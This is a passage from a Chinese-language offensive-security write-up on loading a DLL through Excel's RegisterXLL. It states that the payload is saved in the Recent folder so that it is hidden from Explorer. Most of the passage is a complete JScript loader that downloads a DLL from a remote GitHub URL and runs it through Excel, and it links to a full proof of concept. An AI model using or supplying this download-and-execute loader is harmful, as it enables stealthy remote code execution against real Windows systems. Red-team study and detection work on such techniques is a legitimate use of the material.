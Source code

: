 **注：**

选择保存在Recent目录是为了提高隐蔽性

保存在Recent目录，通过explorer.exe无法查看下载的dll，详情如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/ExcelDllLoader/master/1.gif)

但在cmd下能够查看下载的dll，详情如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/ExcelDllLoader/master/3.png)

在其他目录不存在这个问题，详情如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/ExcelDllLoader/master/2.gif)

为保证js和rundll32利用代码格式对应，原js代码作相应优化，最终代码为：

```
FileSys = WScript.CreateObject("Scripting.FileSystemObject");   
if (FileSys.FolderExists("c:\\Program Files\\Microsoft Office"))   
{   
	WScript.Echo("[+] Find Microsoft Office."); 
	WScript.Echo("[+] Download file...");
	h=new ActiveXObject("WinHttp.WinHttpRequest.5.1");
	h.Open("GET","https://raw.githubusercontent.com/3gstudent/test/master/calc.dll",false);
	h.Send();
	s=new ActiveXObject("ADODB.Stream");
	s.Type=1;
	s.Open();
	s.Write(h.ResponseBody);
	x=new ActiveXObject("WScript.Shell").SpecialFolders("Recent")+"\\calc.dll";
	s.SaveToFile(x,2);

	WScript.Echo("[+] Download Success.");
	WScript.Echo("[+] Load dll...");	 
	e= new ActiveXObject("Excel.Application");
	e.RegisterXLL(x);
	WScript.Echo("[+] Load dll Success.");	  
}
else
{
	WScript.Echo("[!] I can't find Microsoft Office!");  	   
}
```

**注：**

相关代码已上传至Github，完整POC可参照：

https://github.com/3gstudent/ExcelDllLoader

## 0x04 扩展用法
---
